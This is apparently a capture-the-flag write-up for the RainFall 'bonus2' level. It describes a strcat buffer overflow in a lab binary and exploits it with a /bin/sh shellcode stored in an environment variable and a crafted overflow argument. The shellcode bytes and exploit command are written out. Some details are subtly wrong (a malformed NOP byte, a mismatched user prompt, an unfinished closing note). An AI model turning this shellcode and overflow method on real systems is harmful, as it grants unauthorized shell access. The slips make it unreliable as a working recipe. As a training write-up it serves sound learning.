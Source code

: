 ## Flag Bonus2 README: Finding Flag Bonus2

After connection on our vm with:
```bash
ssh bonus2@localhost -p 4343
```

We found a binary named bonus2. When we run it we obtain:
```sh
bonus2@RainFall:~$ ./bonus2
Segmentation fault (core dumped)
bonus2@RainFall:~$
```

Okay next step, decompile this program in order to understand what's the purpose and how to exploit it.

As you can see in our file [source](../source), there is `main` and `greetuser`.
greatuser doest somthing easy, it just write specyfic message regarding the value of language into dest and add the first arg into the string then it writes it on STDOUT with puts.
Main is just for seeking the langage of the user.

So, our plan is to use `strcat` ofr a `buffer overflow` to redirect the execute to our `environnement variable` which contain our `shellcode`.

Okay, as always, we have our receipe, now let's cook.

First let's create our `env variable`.

```sh
bonus1@RainFall:~$ export shellcode="`python -c 'print("\90x"*50 + "\xeb\x1f\x5e\x89\x76\x08\x31\xc0\x88\x46\x07\x89\x46\x0c\xb0\x0b\x89\xf3\x8d\x4e\x08\x8d\x56\x0c\xcd\x80\x31\xdb\x89\xd8\x40\xcd\x80\xe8\xdc\xff\xff\xff/bin/sh")'`"
```

Next, we need to find the address of this variable.
For this we use our small [program](./env_variable_finder.c) for this step.
In this one, the address is: `0xbffffe57`.


./bonus2 $(python -c 'print("aA00aA01aA02aA03aA04aA05aA06aA07aA08aA09bA00bA01bA02bA03bA04bA05bA06bA07bA08bA09cA00cA01cA02cA03cA04cA05cA06cA07cA08cA09dA00dA01dA02dA03dA04dA05dA06dA07dA08dA09" + " " + "\x90"*18 + "\x01\xff\xff\xbf")')

need to add shellcode into ENV variable.

